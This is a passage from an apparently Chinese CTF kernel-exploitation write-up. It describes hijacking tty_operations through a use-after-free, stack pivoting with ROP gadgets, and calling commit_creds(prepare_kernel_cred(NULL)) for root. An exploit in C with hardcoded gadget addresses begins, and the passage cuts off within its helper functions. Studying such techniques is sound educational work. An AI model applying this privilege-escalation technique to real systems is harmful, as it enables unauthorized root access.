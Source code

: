 因此，结构体的选择便是一个有趣的问题，根据结构体的不同，我们有不同的解题方案来选择。

### 解题思路1：tty_struct + 栈迁移（kmalloc-1k，GFP_KERNEL_ACCOUNT）

在`/dev`下存在一个伪终端设备`ptmx`，打开该设备时内核会创建一个`tty_struct`结构体，与其他类型的设备相同，`tty`驱动设备也含有一个存放函数指针的结构体`tty_operations`。因此，我们可以利用`UAF`来劫持`tty_struct`结构体，并劫持`tty_operations`中的函数指针。

而难点在于，`kernel`中是不存在类似于用户态中的`one_gadget`这样直接拿到权限的函数的。这意味着我们至少需要通过栈迁移，来完成`ROP`才可以执行`commit_creds(prepare_kernel_cred(NULL))`。

调试观察寄存器状态，在我们劫持`tty_operations`并调用其中的函数指针时，`RAX`寄存器的值恰好为`tty_operations`结构体的地址。因此，我们可以设置劫持`tty_operations`表中的所有函数指针为`mov rsp, rax; ret`这样的`gadget`，便可以将`rsp`劫持到该结构体起始位置。而即使这样，`rop`的空间也比较小，因此我们将`tty_operations`函数表中的起始位置改为`pop rsp; ret`这样的`gadget`，再在`tty_operations[1]`中写一个`rop`链的地址，即可完成再一次栈迁移到我们编写的`rop`链~

需要注意的是，`ropper`和`ROPgadget`需要配合使用。例如，对于`mov rsp, rax; dec ebx; ret`这样的`gadget`，`ropper`无法找到：

![QQ_1721120202698](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202407161656851.png)

而`Ropgadget`可以找到：

![QQ_1721120224917](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202407161657236.png)

经过调试，第一条`jmp`的位置实际上就是`ret`。因此，需要配合查找`gadget`。

`exp`如下：（`main`函数中有详细注释）

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <stdarg.h>

#define POP_RDI_RET 0xffffffff810d238d
#define POP_RAX_RET 0xffffffff8100ce6e
#define MOV_CR4_RDI_POP_RBP_RET 0xffffffff81004d80
#define MOV_RSP_RAX_DEC_EBX_RET 0xffffffff8181bfc5
#define SWAPGS_POP_RBP_RET 0xffffffff81063694
#define IRETQ_RET 0xffffffff814e35ef

void info(const char *format, ...)
{
    va_list args;
    va_start(args, format);
    printf("%s", "\033[34m\033[1m[*] ");
    vprintf(format, args);
    printf("%s", "\033[0m\n");
}

void success(const char *format, ...)
{
    va_list args;
    va_start(args, format);
    printf("%s", "\033[32m\033[1m[+] ");
    vprintf(format, args);
    printf("%s", "\033[0m\n");
}

void error(const char *format, ...)
{
    va_list args;
    va_start(args, format);
    printf("%s", "\033[31m\033[1m[x] ");
```